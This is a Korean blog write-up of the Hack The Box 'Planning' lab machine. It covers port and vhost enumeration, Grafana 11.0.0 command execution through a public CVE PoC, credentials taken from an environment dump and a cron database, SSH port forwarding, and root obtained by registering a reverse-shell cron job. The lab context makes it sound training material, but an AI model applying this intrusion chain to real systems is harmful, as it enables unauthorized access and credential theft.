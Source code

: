 ```yaml
---
layout: post
title: Hack The Box - Planning
subtitle: Hack the box planning machine
category: writeup
thumbnail-img: /assets/img/writeup/HTB/planning/pwned.png
tags:
  [
    writeup,
    hackthebox,
    planning,
    ssh,
    tunneling,
    portforwarding,
    vhost,
    netstat,
  ]
author: Hong
---
```


# 시작 크레덴셜

이번 머신은 처음에 크레덴셜이 주어진다.

`admin / 0D5oT70Fq13EvB5r`

로그인에 사용되겠다는 것을 인지.

# nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

ssh와 웹서버가 열려있다.

웹서버에 로그인 페이지가 있는지 디렉토리를 찾아봤다.

# Web enum

## directory fuzzing

`gobuster dir -u http://planning.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php -t 40`

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/contact.php          (Status: 200) [Size: 10632]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
/about.php            (Status: 200) [Size: 12727]
/index.php            (Status: 200) [Size: 23914]
/detail.php           (Status: 200) [Size: 13006]
/course.php           (Status: 200) [Size: 10229]
/enroll.php           (Status: 200) [Size: 7053]
```

결과들을 하나하나 살펴봐도 로그인 화면은 없었다.

## subdomain fuzzing

`ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -fs 178 -H "Host: FUZZ.planning.htb"`

`gobuster dns -d planning.htb -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 40`

서브도메인은 딱히 없다.

## vhost

`ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -fs 178`

```
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.68
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 204ms]
```

vhost를 퍼징하니 하나가 검색되었다. 서브도메인과는 다르게 타겟을 IP주소로 설정해야 vhost 모드가 된다.

`grafana.planning.htb`를 `/etc/hosts` 파일에 추가 후 사이트를 살펴본다.

![login](/assets/img/writeup/HTB/planning/login.png)

드디어 로그인 페이지가 나왔다.

처음에 주어진 크레덴셜로 로그인한다.

로그인에는 성공했지만 딱히 취약점을 찾지는 못했다.

버전을 확인.

`whatweb http://grafana.planning.htb`

```
http://grafana.planning.htb/login [200 OK] Country[RESERVED][ZZ], Grafana[11.0.0], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], Script[text/javascript], Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx[1.24.0]
```

버전이 11.0.0이다. 찾아보니 관련 [CVE](https://github.com/nollium/CVE-2024-9264)가 있었다.

poc를 사용하면 리모트 명령어가 실행 가능한데 직접 리버스쉘을 연결하는 것은 불가능했다.

무슨 환경인지 파악하기 위해 `env` 명령어를 입력.

```
GF_PATHS_LOGS=/var/log/grafana
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
```

그랬더니 enzo라는 유저와 패스워드가 적혀있다. ssh로 로그인 해보니 성공.

# 권한상승

여기저기 파일들을 살펴보다가 `/opt/crontabs`에서 비밀번호가 적혀있는 파일을 발견했다.

```
cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

어디에 쓰는 비밀번호인지 아직은 모르겠다.

로컬에서 실행중인 다른 서비스를 보기 위해 `netstat -lntpu`를 입력.

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35379         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

3000번과 8000번이 신경쓰인다.

ssh로 포트포워딩 한 후 접속해본다.

`ssh -N -L localhost:8000:localhost:8000 enzo@10.10.11.68`

3000번은 아까 봤던 grafana의 로그인 화면.

8000번을 접속해보면 로그인 페이지가 나온다.

위에서 찾은 비밀번호를 이용하는 것 같은데 아이디가 모르겠다.

파일안에 `root_grafana` 부분이 있었기 때문에 `root / P4ssw0rdS0pRi0T3c`를 넣어봤더니 로그인 성공했다.

![cron](/assets/img/writeup/HTB/planning/cronjobs.png)

아까 파일에서 봤던 크론잡이 등록되어 있다.

root로 실행되기 때문에 리버스쉘 페이로드를 등록했더니 루트로 쉘이 연결됐다!

